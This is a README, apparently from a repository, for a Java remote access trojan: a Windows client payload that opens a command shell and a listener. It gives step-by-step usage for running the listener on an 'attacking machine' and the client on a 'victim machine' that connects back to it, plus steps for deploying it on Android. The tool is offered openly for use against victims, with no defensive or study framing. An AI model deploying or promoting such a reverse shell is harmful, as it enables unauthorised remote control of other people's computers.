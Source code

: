 ########################
~~~~~~~~~~~~~~~~~~~~~~~~~~
SimpleJAVARAT-Listener-Payload 
~~~~~~~~~~~~~~~~~~~~~~~~~~
A simple reverse shell that works. 

@
Or I. Benet//
IT Specialist//
M.IS UoP - Cyber Security - Epsilon Pi Tau//
B.S. Troy - Chemistry - Mathmatics//
@
####################

~~~Included Files~~~
  RATCLIENT.java - Windows Payload that opens up a command-shell
  RATCLIENT.class - compiled

  RATSERVER.java - Simple CLI Listener
  RATSERVER.class - compiled

  ~~~~~~~~~~~~~~~~
  
Regular USAGE:
  @@@@
  1. Start the RATSERVER ON ATTACKING MACHINE (command: java RATSERVER)
  @@@@
  2. Start the RATCLIENT on VICTIM MACHINE (command: java <hostip>)
  @@@@
.............................................................................................................................

Android USAGE:
@@@@
1. Create new Android Project
@@@@
2. Create a Relative layout with scrollView , editText, and button.
@@@@
3. Copy classes
@@@@
4. add     <uses-permission android:name="android.permission.INTERNET" />
    <uses-permission android:name="android.permission.ACCESS_NETWORK_STATE" />
    
    to manifest
@@@@
5. Start the Application on an Android Device or VM
@@@@
6. Start the RATCLIENT on VICTIM MACHINE
